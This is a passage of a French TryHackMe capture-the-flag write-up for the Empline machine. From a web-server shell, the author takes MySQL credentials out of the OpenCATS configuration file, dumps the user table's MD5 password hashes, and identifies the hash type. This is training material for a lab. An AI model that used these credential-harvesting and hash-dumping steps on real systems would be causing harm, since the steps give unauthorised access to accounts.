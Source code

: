 Dans le fichier de configuration on voit des identifiants : james:ng6pUFvsGNtw    
On a aussi une basse de donnée opencats.   

```bash
(remote) www-data@empline:/var/www/opencats$ mysql -h 127.0.0.1 -D opencats -u james -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 148
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [opencats]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [opencats]> use opencats;
Database changed

atabase changed
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
| attachment                           |
| calendar_event                       |
........................................
| user                                 |
| user_login                           |

MariaDB [opencats]> select * from user;

admin:b67b5ecc5d8902ba59c65596e4c053ec    
george:86d0dfda99dbebc424eb4407947356ac   
james:e53fbdb31890ff3bc129db0e27c473c9
```

On se connecte avec les informations sur la base de donnée opencats.  
On trouve trois utilisateurs avec leurs hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti b67b5ecc5d8902ba59c65596e4c053ec
MD5 [HC: 0] [JtR: raw-md5]
```

